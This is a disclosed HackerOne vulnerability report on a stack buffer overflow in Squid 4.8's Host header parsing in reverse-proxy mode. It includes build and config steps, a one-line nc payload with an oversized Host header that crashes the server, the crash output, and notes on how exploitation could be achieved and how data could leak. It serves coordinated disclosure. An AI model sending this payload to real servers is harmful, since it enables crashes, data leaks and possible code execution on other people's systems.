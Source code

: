 # Squid as reverse proxy RCE and data leak

## Report Details
- **Report ID**: 778610
- **URL**: https://hackerone.com/reports/778610
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-01-20T21:46:26.550Z
- **Disclosed**: 2021-08-26T23:10:11.757Z

## Reporter
- **Username**: guido
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
## Summary:
This was a very difficult experience as Squid maintainers took a long time to answer. I tried getting help from HackerOne support, Dropbox support and the Internet Bug Bounty (never e-mailed me back) to no avail. What could have taken a few days took months.

The vulnerability concerns a stack buffer overflow (write) in parsing of the Host header if Squid acts as a reverse proxy.

The bug is fixed in Squid 4.10 released on 20 Jan 2020 which can be found here: http://www.squid-cache.org/Versions/v4/

## Steps To Reproduce:
```
mkdir squid-poc
cd squid-poc/
wget 'https://github.com/squid-cache/squid/archive/SQUID_4_8.tar.gz'
tar zxf SQUID_4_8.tar.gz
mkdir squid-install
cd squid-SQUID_4_8/
autoreconf -if
./configure --prefix=$(realpath ../squid-install)
make -j$(nproc)
make install
cd ../squid-install/sbin/
```

Create a file ```squid.conf``` with this contents. This is based on the instructions at https://wiki.squid-cache.org/ConfigExamples/Reverse/BasicAccelerator

```
http_port 9999 accel defaultsite=127.0.0.1 vhost vport=1
cache_peer 127.0.0.1 parent 80 0 no-query originserver name=myAccel
acl our_sites dstdomain your.main.website.name
http_access allow our_sites
cache_peer_access myAccel allow our_sites
cache_peer_access myAccel deny all
```

Run Squid:

The following is a oneliner to launch Squid and send the payload that crashes it:

```
./squid -N -f squid.conf & sleep 1 && echo -en "GET / HTTP/1.1\x0D\x0AHost: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:\x0D\x0A\x0D\x0A" | nc localhost 9999
```

Output:

```
[1] 19871
*** buffer overflow detected ***: ./squid terminated
[1]+  Aborted                 (core dumped) ./squid -N -f squid.conf
```

## Supporting Material/References:

Exploitation with -fstack-protector enabled is impossible.
Some compilers don't enable -fstack-protector by default (like Clang without optimization flags).

Without stack protector, exploitation is relatively easy on 32 bit as valid addresses normally don't require a leading zero byte (which cannot be written by the payload, because the affected code treats it as a null-terminated string).
On 64 bit it is more difficult, but not necessarily impossible. Rather than overwriting the return address, changing the value of a (for instance boolean) configuration variable may be used.

Unlike glibc, musl libc is used does not write a NULL byte to the destination buffer if the size argument is very large, which happens here due to an overflowing subtraction. Hence, exploitation may be easier on systems that use musl libc, like OpenWRT and Alpine Linux.

There is also a small data leak for payloads of a particular length. This does not crash Squid, and makes it return uninitialized bytes located after the string buffer, usually just several (until a NULL byte is reached).

Fix: https://github.com/squid-cache/squid/pull/519

## Impact

Remote code execution (under certain circumstances), crashing a server (under most circumstances), leaking data from the server (under most circumstances).

## Attachments
No attachments
